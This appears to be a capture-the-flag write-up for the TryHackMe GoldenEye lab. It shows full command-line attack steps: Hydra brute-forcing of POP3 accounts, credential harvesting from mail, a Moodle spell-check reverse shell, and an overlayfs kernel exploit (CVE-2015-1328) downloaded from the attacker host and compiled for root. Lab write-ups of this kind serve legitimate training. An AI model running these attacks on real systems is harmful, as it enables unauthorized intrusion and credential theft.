

## Initial FootPrint
### **Port Scan**
```sh

┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ python3 /home/bc-here/CTF/scripts/pymap.py -t gold.thm --all >> ports.txt


[+] Port scanning...
25/tcp    open  smtp
80/tcp    open  http
55006/tcp open  unknown
55007/tcp open  unknown
[+] Enumerating open ports...

PORT      STATE SERVICE VERSION
55007/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: PIPELINING STLS AUTH-RESP-CODE SASL(PLAIN) CAPA RESP-CODES UIDL TOP USER
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52


PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server


PORT      STATE SERVICE  VERSION
55006/tcp open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
|_pop3-capabilities: UIDL CAPA AUTH-RESP-CODE SASL(PLAIN) TOP PIPELINING USER RESP-CODES
|_ssl-date: TLS randomness does not represent time


PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2018-04-24T03:22:34
|_Not valid after:  2028-04-21T03:22:34
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
```
### **Directory Enum**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ feroxbuster --url http://gold.thm/ >> ferox.txt

200      GET       39l      146w     1349c http://gold.thm/terminal.js

200      GET       24l       44w      354c http://gold.thm/index.css

200      GET       11l       17w      252c http://gold.thm/

```

### **Info**
- These are the info that I've gotten

```txt
Boris
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;

InvincibleHack3r

root

Natalya

alec

janus

Xenia
```

## Hunting for More Passwords

#### **Users.txt**
```txt
xenia
root
Natalya
alec
janus
```

#### **Hydra**

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ hydra -L users.txt -P /usr/share/wordlists/fasttrack.txt 10.10.157.181 -s 55007 pop3 -t 64 -o password.txt

[55007][pop3] host: 10.10.157.181   login: `Natalya`   password: `bird`
```

#### **Login pop3 account of Natalya**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ nc 10.10.157.181 55007
+OK GoldenEye POP3 Electronic-Mail System
user natalya
+OK
pass bird
+OK Logged in.
list
+OK 2 messages:
1 631
2 1048
.
retr 1
.
.
.
.
.
username: xenia
password: RCP90rulez!

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.

```

#### **passwords**
```txt
natalya:bird
xenia: gnocertdir
```


## Enumeration 2.0

#### **Login as Xenia**
- After adding the domain in the etc host I went to `http://severnaya-station.com/gnocertdir/` this url and find a login page and I have logged in a xenia


#### **Trying to get a reverse shell through xenia**


- But no luck


- I found an interesting thing at the msg option which is another person!
- Lets try to find his password


#### **Cracking doak's password**
```sh

┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ hydra -l doak -P /usr/share/wordlists/fasttrack.txt 10.10.157.181 -s 55007 pop3 -t 64

[55007][pop3] host: 10.10.157.181   login: `doak`   password: `goat`

```
- Lets try to login to the same page

- That doesn't work for me!

- Lets try to check in the pop3

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ nc 10.10.157.181 55007
+OK GoldenEye POP3 Electronic-Mail System
user doak
+OK
pass goat
+OK Logged in.
list
+OK 1 messages:
1 606
.
retr 1
```

- Dr Doak's website password is :
```txt
username: dr_doak
password: 4England!
```

## Enumeration 3.0

- Getting info about dr doak


- There is an interesting directory - `/dir007key/for-007.jpg`

- And this is that I found


- So I downloaded the image
```sh
wget http://severnaya-station.com/dir007key/for-007.jpg
```

#### **Steganography**

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ strings for-007.jpg
JFIF
Exif
`eFdpbnRlcjE5OTV4IQ==`
GoldenEye
linux
For James
0231
0100
ASCII
For 007
""""""""""
             !      !!!   !!!!!!!!"""""""""""""""
```
-`eFdpbnRlcjE5OTV4IQ==` this is pretty interesting

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d
xWinter1995x!
```


- Yes it worked right



- I found all the info that I found previously


## Admin panel Enumeration

- I thought a reverse shell in the private folders would work but it didn't


- There is a hint in the tryhackme.com 


- Lets check with the python reverse shell here

- We also have to change the shell editor from google to PSpellShell


- It seems that we also need to type something and check the spell option for getting the shell

- And Finally I have gotten the shell


## PrivEsc
#### **Crafting**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ searchsploit  3.13.0
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                                                           | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc/shadow)                                                      | linux/local/37293.txt
Unified Remote 3.13.0 - Remote Code Execution (RCE)                                                                                                                            | windows/remote/51309.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ searchsploit  -m 37292.c
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
    Codes: CVE-2015-1328
 Verified: True
File Type: C source, ASCII text, with very long lines (466)
Copied to: /home/bc-here/CTF/THM/GoldenEye/37292.c


┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ ls
37292.c  5257.py  dir.txt  ferox.txt  for-007.jpg  password.txt  php-reverse-shell.php  ports.txt  users.txt

┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ sudo python3 -m http.server 8080
[sudo] password for bc-here:
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

```

#### **Injecting**
```sh
www-data@ubuntu:/tmp$ wget http://10.14.92.43:8080/37292.c
--2024-11-14 21:04:36--  http://10.14.92.43:8080/37292.c
Connecting to 10.14.92.43:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: '37292.c'

100%[======================================>] 4,968       --.-K/s   in 0s

2024-11-14 21:04:37 (605 MB/s) - '37292.c' saved [4968/4968]

www-data@ubuntu:/tmp$ ls
37292.c  linuxExploitSuggestor.sh  tinyspellgrrWs4
www-data@ubuntu:/tmp$ chmod +x 37292.c
www-data@ubuntu:/tmp$ ls
37292.c  linuxExploitSuggestor.sh  tinyspellgrrWs4
www-data@ubuntu:/tmp$ which gcc
www-data@ubuntu:/tmp$ which cc
/usr/bin/cc
www-data@ubuntu:/tmp$

```
- The hint was in the try hack me lab
- So there was no `gcc` in the remote terminal but there was  `cc` there 
- So we have to make the code suitable for `cc` 

**Changing Exploit**
- With the help of chatgpt I changed it

*From*
```c
lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
```
*To*
```c
lib = system("cc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");

```
```sh
www-data@ubuntu:/tmp$ cc 37292.c -o exploit
www-data@ubuntu:/tmp$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# cd /root
# ls
# ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
# cat ./.flag.txt
Alec told me to place the codes here:

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/
```

## Root: `568628e0d993b1973adc718237da6e93`